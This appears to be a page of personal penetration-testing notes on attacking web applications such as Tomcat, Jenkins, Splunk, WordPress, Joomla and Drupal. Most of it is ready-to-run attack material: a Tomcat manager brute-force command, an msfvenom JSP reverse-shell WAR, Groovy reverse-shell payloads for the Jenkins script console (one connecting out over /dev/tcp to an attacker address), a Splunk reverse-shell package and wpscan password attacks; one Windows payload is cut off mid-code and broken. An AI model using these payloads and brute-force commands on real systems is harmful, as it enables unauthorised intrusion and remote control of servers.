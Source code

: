 | `python3 mgr_brute.py -U <http://domainnameoripaddressofTomCatsite> -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt` | Runs mgr_brute.py using python3 against the specified website starts in the /manager directory (`-P /manager`) and references a specified user or userlist ( `-u`) as well as a specified password or password list (`-p`)     |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address of attack box> LPORT=<port to listen on to catch a shell> -f war > backup.war`                                                                                                      | Generates a jsp-based reverse shell payload in the form of a .war file utilizing `msfvenom`                                                                                                                                    |
| `nmap -sV -p 8009,8080 <domainname or IP address of tomcat site>`                                                                                                                                                                             | Nmap scan useful in enumerating Apache Tomcat and AJP services                                                                                                                                                                 |
| `r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 \| while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()`                                                                    | Groovy-based reverse shell payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. Will work when the underlying OS is Linux                                                                 |
| `def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");`                                                                                                                                                                               | Groovy-based payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. This will allow webshell access and to execute commands on the underlying Windows system                                |
| `String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);`                                                                                         | Groovy-based reverse shell payload/code that can work with admin acess to the `Script Console` of a `Jenkins`site. Will work when the underlying OS is Windows                                                                 |
| [reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)                                                                                                                                                                       | A simple Splunk package for obtaining revershells on Windows and Linux systems                                                                                                                                                 |

#### Wordpress :
```shell
curl -s http://blog.inlanefreight.local | grep WordPress

<meta name="generator" content="WordPress 5.8" /
```

```shell
# recon
sudo wpscan --url [url] --api-token [api token]

# bruteforce
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url 
```

#### Joomla :
Get infos about the version
```shell
curl -s http://[url]/administrator/manifests/files/joomla.xml | xmllint --format -
```

Enumeration : 
```shell
droopescan scan joomla --url 
```

#### Drupal :

```shell
droopescan scan drupal --url 
```

#### Tomcat
Apache Tomcat is an open-source web server for Java applications (Servlets & JSP). It's widely used in enterprise environments with tools like **Spring** and **Gradle**.

##### 📊 Market & Usage Stats
- 🧠 ~220k live sites using Tomcat (BuiltWith)
- 🔁 ~904k websites have used it at some point
- 🌐 1.22% of top 1M websites use Tomcat
- 🏢 Used by Alibaba, USPTO, Red Cross, LA Times  
- 📉 Ranks #13 in web server market share
